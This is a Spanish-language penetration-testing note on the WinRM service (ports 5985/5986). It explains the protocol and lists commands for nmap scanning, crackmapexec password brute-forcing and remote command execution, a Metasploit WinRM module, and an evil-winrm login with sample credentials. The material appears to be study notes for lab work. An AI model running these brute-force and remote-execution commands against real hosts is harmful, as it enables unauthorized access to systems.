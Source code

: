 ```yaml
---
title: 5985-WinRM
service: TCP
---
```

# ¿Qué es?

Windows Remote Management (WinRM) es un protocolo de administración remota basado en la línea de comandos integrado en Windows. Usa el protocolo SOAP para conectarse a hosts remotos y sus aplicaciones. A partir de Windows 10, WinRM debe activarse y configurarse manualmente. Comunica a través de los puertos TCP 5985 y 5986, siendo este último para conexiones [[443-https|HTTPS]]. Estos puertos reemplazaron a los antiguos 80 y 443, que se bloqueaban por motivos de seguridad.

WinRM también incluye **Windows Remote Shell (WinRS)**, que permite ejecutar comandos en sistemas remotos, disponible desde Windows 7. Servicios como sesiones remotas con PowerShell y la fusión de registros de eventos dependen de WinRM. Está activado por defecto desde Windows Server 2012, pero requiere configuración previa y excepciones de firewall en versiones anteriores.
# Auditando el servicio

## [[nmap]]

```bash
nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n
```

## Crackmapexec

Nos sirve para obtener credenciales por fuerza bruta:

```bash
crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

O para ejecutar comandos

```bash
crackmapexec winrm 10.2.18.45 -u administrator -p <password> -x "command"
```

## [[metasploit]]

```bash
windows/winrm/winrm_script_exec

set FORCE_VBS true
```

## Conexión

Si queremos verificar si uno o más servidores remotos son accesibles a través de WinRM, podemos hacerlo fácilmente con PowerShell utilizando el cmdlet *Test-WsMan*, pasando el nombre del host como parámetro. En entornos basados en Linux, podemos usar la herramienta [[evil-winrm]], diseñada para pruebas de penetración e interacción con WinRM.

```bash
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
```